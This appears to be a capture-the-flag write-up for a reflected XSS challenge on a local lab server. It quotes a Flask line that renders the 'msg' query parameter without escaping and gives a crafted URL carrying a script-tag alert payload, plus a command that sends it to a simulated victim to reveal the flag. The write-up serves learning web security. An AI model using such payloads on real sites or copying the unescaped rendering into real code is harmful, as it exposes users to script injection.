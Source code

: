 # Reflected XSS – alert("PWNED")

## 🧠 Summary

This challenge features a **Reflected XSS** vulnerability. The server takes a URL query parameter (`msg`) and renders it directly into the HTML response without escaping, allowing us to inject JavaScript.

## 🔍 Exploiting the Vulnerability

The server code reflects the `msg` parameter like this:

```python
{flask.request.args.get("msg", "(none)")}
No sanitization is applied, so we inject a <script> tag.

🚀 Steps to Exploit
Craft the malicious URL:

php-template
Copy
Edit
http://challenge.localhost:80/?msg=<script>alert("PWNED")</script>
Trigger the victim to visit it:

bash
Copy
Edit
/challenge/victim 'http://challenge.localhost:80/?msg=<script>alert("PWNED")</script>'
Once visited, alert("PWNED") is executed in the victim’s browser, and the flag is revealed.

✅ Conclusion
By reflecting unsanitized input into HTML, the server allows JavaScript injection via the URL. This is a classic Reflected XSS scenario.